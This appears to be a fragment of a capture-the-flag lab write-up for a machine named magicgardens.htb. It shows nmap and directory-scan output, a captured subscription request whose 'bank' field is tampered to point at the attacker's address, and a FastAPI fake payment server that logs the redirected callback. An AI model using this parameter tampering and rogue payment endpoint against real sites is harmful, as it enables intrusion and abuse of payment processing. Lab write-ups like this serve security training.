

```shell
nmap -T4 --min-rate 5000 -sC -sV -A -o magicgardens -Pn 10.129.63.2

Starting Nmap 7.80 ( https://nmap.org ) at 2024-05-18 16:25 -03
Nmap scan report for 10.129.63.2
Host is up (0.16s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
25/tcp   open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp   open  http     nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Did not follow redirect to http://magicgardens.htb/
5000/tcp open  ssl/http Docker Registry (API: 2.0)
|_http-title: Site doesn't have a title.
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Not valid before: 2023-05-23T11:57:43
|_Not valid after:  2024-05-22T11:57:43
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 221.38 seconds
```

```
PORT      STATE    SERVICE        REASON         VERSION
22/tcp    open     ssh            syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
25/tcp    open     smtp           syn-ack ttl 63 Postfix smtpd
80/tcp    open     http           syn-ack ttl 63 nginx 1.22.1
1337/tcp  open     waste?         syn-ack ttl 63
5000/tcp  open     ssl/http       syn-ack ttl 62 Docker Registry (API: 2.0)
```

```
/search               (Status: 301) [Size: 0] [--> /search/]
/login                (Status: 301) [Size: 0] [--> /login/]
/register             (Status: 301) [Size: 0] [--> /register/]
/profile              (Status: 301) [Size: 0] [--> /profile/]
/subscribe            (Status: 301) [Size: 0] [--> /subscribe/]
/catalog              (Status: 301) [Size: 0] [--> /catalog/]
/admin                (Status: 301) [Size: 0] [--> /admin/]
/cart                 (Status: 301) [Size: 0] [--> /cart/]
/logout               (Status: 301) [Size: 0] [--> /logout/]
/check                (Status: 301) [Size: 0] [--> /check/]
```

```
POST /subscribe/ HTTP/1.1
Host: magicgardens.htb
Content-Length: 188
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://magicgardens.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://magicgardens.htb/profile/?tab=subscription&action=upgrade
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=069kIGPsb1U12Jb5Yg1Xdo093uoXnxyP; sessionid=.eJw1zTEKwkAQheEtNCSSg1h5DBtLDxDGzUJW4izszGCleIApn_c1JPi6j794n_33Hba9cPTWJFWmR4Lv7oUJ3oiSmsDbqxKPVEd498wyDXMWhQd4vzIWY00VU-NdpKpbX9Sv-udL8IPYbaCoufByc6Y8w04_Yf8zjA:1s8R3b:a40iHybKR1OoSoQJTfJRyd_B-ZQhUSNAFBQ0DSUnPhU
Connection: close

csrfmiddlewaretoken=1Ay1DyGLInC4iAKeD1xNH4IQer6FCivORwxbb4l3JemVa9L9r7oAKiyP7LksPFTt&bank=10.10.14.17:4000&cardname=Jonathan&cardnumber=111222333444&expmonth=september&expyear=2025&cvv=321
```

```py
from fastapi import FastAPI, Form

app = FastAPI()

@app.post("/api/payments", status_code=200)
def receive_payment(data: dict):

    print(data)

    response = {
        "status": "success",
        "message": "Payment received successfully",
    }

    return response
```

